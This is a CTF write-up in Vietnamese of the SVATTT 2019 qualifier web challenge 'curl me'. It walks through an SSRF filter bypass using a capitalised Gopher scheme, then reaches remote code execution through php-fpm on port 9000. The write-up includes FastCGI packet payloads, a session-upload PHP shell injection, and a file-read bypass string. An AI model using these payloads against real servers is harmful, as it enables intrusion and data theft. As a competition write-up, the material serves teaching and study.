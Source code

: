 Xin chào, mình là `Vịnh (@vinhjaxt)`!

Vừa qua (03/11/2019), mình có tham gia cuộc thi SVATTT 2019 vòng sơ khảo, thuộc team `KMA PeBois`.

Sau đây, mình xin phép đại diện cho team, viết writeup bài web có tiêu đề `curl me`.

# Đề bài
```
Curl me
Source code: https://drive.google.com/file/d/10fXfOHVbtth28677oQ6Xxorgq5Tv3Dik/view
URL: http://125.235.240.170/
```

# Hint
Sau khi team mình giải được, btc cho hint, team sợ vô cùng :(
```
1. gopherus
```

# Source index.php
```php
<?php
if (isset($_GET["url"])) {
    $url = $_GET["url"];
    $parse = parse_url($url);

    if (isset($parse["scheme"]) && !in_array($parse["scheme"], array("file", "gopher"))) {
        if (!isset($parse["port"]) || $parse["port"] != 9000) {
            $path = urldecode(isset($parse["path"])?$parse["path"]:"");
            if (!preg_match("/flag/i", $path)) {
                $ch = curl_init();
                curl_setopt($ch, CURLOPT_URL, $url);
                curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
                curl_setopt($ch, CURLOPT_HEADER, false);
                $output = curl_exec($ch);
                curl_close($ch);
                die($output);
            }
        }
    }
    die("dont hack :)");
}
?>
<a href ="?url=https://pastebin.com/raw/jEwTz1cP">Curl flag</a>
```
Sau khi thấy 2 bài `curl 1` và `curl 2`, team mình nghĩ, `curl 1` sẽ phải làm cách nào đó để đọc file `/flag1` thông qua curl php.
Còn `/flag2`, muốn đọc được thì phải rce, liên quan đến php-fpm.
Hơn nữa, gần đây có cái CVE của php-fpm, chắc là cần dùng đến nó.

Với `curl 1`:
Để đọc được file `/flag1` thì ta phải bypass 2 thứ:
- parse_url với sheme được check không cho `file`, `gopher`: Cái này bypass khá đơn giản, team gửi url với scheme là `File` hay là `Gopher`
- `preg_match("/flag/i", $path)`: cái này thì coi như xong, trong suốt thời gian cuộc thi diễn ra, team mình vẫn chưa biết làm sao vượt được, sau khi kết thúc cuộc thi mới được share `File:///#/../flag1`

Với chiến lược: thôi thì đằng nào chả phải làm cái `curl 2`, làm được cái 2 rồi ăn cái 1 cũng được, team mình bắt đầu chuyển sang hướng khác.

Ban đầu, check với poc của CVE-2019-11043 (https://github.com/neex/phuip-fpizdam), không chạy.

Không sao! Chắc tác giả muốn các đội tìm hiểu sâu hơn vào cách poc hoạt động, team mình đọc blog của Orange (http://blog.orange.tw/) và improve poc: Không thành công

OK, không sao, còn nữa, port 9000, nếu mà vượt được thì chắc là hay ho =)).

Sau khi có tin nhắn `Ém flag à em =))`, mình thấy `PeBois` sắp thành `Phế Bois` rồi =)), bắt đầu fuzz lại cái parse_url hy vọng kiếm được chút đỉnh để vượt qua cơn khó khăn này.

Thật may mắn, payload `?url=Gopher:/127.0.0.1:9000`
với php:
```php
php > var_dump(parse_url("Gopher:/127.0.0.1:9000"));
array(2) {
  ["scheme"]=>
  string(6) "Gopher"
  ["path"]=>
  string(15) "/127.0.0.1:9000"
}
```
nhưng với curl:
```bash
$ curl 'Gopher:/127.0.0.1:9000' -v
*   Trying 127.0.0.1:9000...
* TCP_NODELAY set
* connect to 127.0.0.1 port 9000 failed: Connection refused
* Failed to connect to 127.0.0.1 port 9000: Connection refused
* Closing connection 0
```
Đến đây thì coi như toang (vượt được check port 9000), con đường thênh thang rộng mở mà rce vào thôi.

Để rce, team mình có 2 phương án:
- Thực hiện giống poc của CVE-2019-11043: Cách này đòi hỏi race condition quyết liệt
- Tham khảo poc CVE-2019-11043, thực hiện php session upload injection (cái này mình không biết gọi thế nào cho đúng :((, lấy từ ý tưởng lúc chơi `balsnctf`) và php-fpm (giống với SVATTT 2018 Quals của tác giả [@haxor](https://www.facebook.com/haxor.1337.xxx))

Không chần chừ, team mình chọn cách 2:

Đề thực hiện cách này, team mình cần:
- Một session của php
- Inject shell vào session đó bằng việc upload
- Include session đó sử dụng gopher để thay đổi setting auto_prepend_file của php-fpm và gọi shell

OK! Giải quyết từng vấn đề một:
- Để có được session, team mình sử dụng gopher, thay đổi setting `session.auto_start=1` của php-fpm

Sử dụng script (https://raw.githubusercontent.com/ONsec-Lab/scripts/master/fastcgipacket.rb) để gen với php-fpm params:
```ruby
packet << FCGIRecord::Params.new(1,
  "REQUEST_METHOD" => "GET",
  "SCRIPT_FILENAME" => "/var/www/html/index.php",
  "PHP_ADMIN_VALUE" => "session.auto_start=1"
).to_s
```
Sau khi gửi lên server, team mình có session của php `mhjuo9kbjf5fpkv0c2sk11mclo` (trả về dạng: `Set-Cookie: PHPSESSID=mhjuo9kbjf5fpkv0c2sk11mclo`)

- Để inject shell vào session này, team mình thực hiện upload liên tục lên server:
```js
      {
        method: 'POST',
        url: 'http://125.235.240.170/info.php?0=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo',
        headers: {
          Connection: 'close',
          Cookie: 'PHPSESSID=mhjuo9kbjf5fpkv0c2sk11mclo'
        },
        formData: {
          PHP_SESSION_UPLOAD_PROGRESS: 'XXXXXvinhjaxtXXXXX',
          f: {
            value: `A`.repeat(100 * 1024),
            options: {
              filename: `<?php $v=chr(47).'getflag'; echo \`$v\`; ?>`, // Đọc flag2 nè
              contentType: 'image/jpeg'
            }
          }
        }
      }
```
- Để thực thi shell, team mình gửi request thay đổi `auto_prepend_file=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo` c

Thực hiện script fastcgipacket.rb với custom:
```ruby
packet << FCGIRecord::Params.new(1,
  "REQUEST_METHOD" => "GET",
  "SCRIPT_FILENAME" => "/var/www/html/index.php",
  "PHP_ADMIN_VALUE" => "auto_prepend_file=/var/lib/php/sessions/sess_mhjuo9kbjf5fpkv0c2sk11mclo"
).to_s
```
Sau đó gửi nhiều lần payload này lên server bằng cách chạy nhiều lần script sau (bằng tay :p):
```php
<?php
$out = "\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04\x00\x01\x00\x93\x03\x00\x0e\x03\x52\x45\x51\x55\x45\x53\x54\x5f\x4d\x45\x54\x48\x4f\x44\x47\x45\x54\x0f\x17\x53\x43\x52\x49\x50\x54\x5f\x46\x49\x4c\x45\x4e\x41\x4d\x45\x2f\x76\x61\x72\x2f\x77\x77\x77\x2f\x68\x74\x6d\x6c\x2f\x69\x6e\x64\x65\x78\x2e\x70\x68\x70\x0f\x47\x50\x48\x50\x5f\x41\x44\x4d\x49\x4e\x5f\x56\x41\x4c\x55\x45\x61\x75\x74\x6f\x5f\x70\x72\x65\x70\x65\x6e\x64\x5f\x66\x69\x6c\x65\x3d\x2f\x76\x61\x72\x2f\x6c\x69\x62\x2f\x70\x68\x70\x2f\x73\x65\x73\x73\x69\x6f\x6e\x73\x2f\x73\x65\x73\x73\x5f\x6d\x68\x6a\x75\x6f\x39\x6b\x62\x6a\x66\x35\x66\x70\x6b\x76\x30\x63\x32\x73\x6b\x31\x31\x6d\x63\x6c\x6f\x00\x00\x00\x01\x04\x00\x01\x00\x00\x00\x00\x01\x05\x00\x01\x00\x00\x00\x00";
echo PHP_EOL,file_get_contents("http://125.235.240.170/index.php?url=".rawurlencode("Gopher:/127.0.0.1:9000/_".rawurlencode($out))), PHP_EOL;
```
Thật may mắn, trong một lần gửi lên, server trả về cho mình:
![](https://raw.githubusercontent.com/vinhjaxt/CTF-writeups/master/SVATTT-2019-Quals/Screenshot%20at%202019-11-03%2015-13-44.png)

Và một chút thay đổi để lấy được `/flag1`
```js
filename: `<?php $v=chr(47).'flag1'; echo file_get_contents($v); ?>`,
```
![](https://raw.githubusercontent.com/vinhjaxt/CTF-writeups/master/SVATTT-2019-Quals/Screenshot%20at%202019-11-03%2015-14-44.png)

OK, vậy là xong. Team mình khá vui và gỡ bỏ một số áp lực.
Cảm ơn các bạn/anh/chị/em đã theo dõi writeup, cảm ơn tác giả của challenge, c.
Nếu có góp ý, liên hệ, trao đổi, mọi người vui lòng liên lạc qua:
- Fb: http://fb.com/i.am.Ioser
- Discord: @vinhjaxt#2733
- Twitter: @vinhjaxt

# Tham khảo thêm
- https://www.zybuluo.com/shaobaobaoer/note/1214441
- http://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html

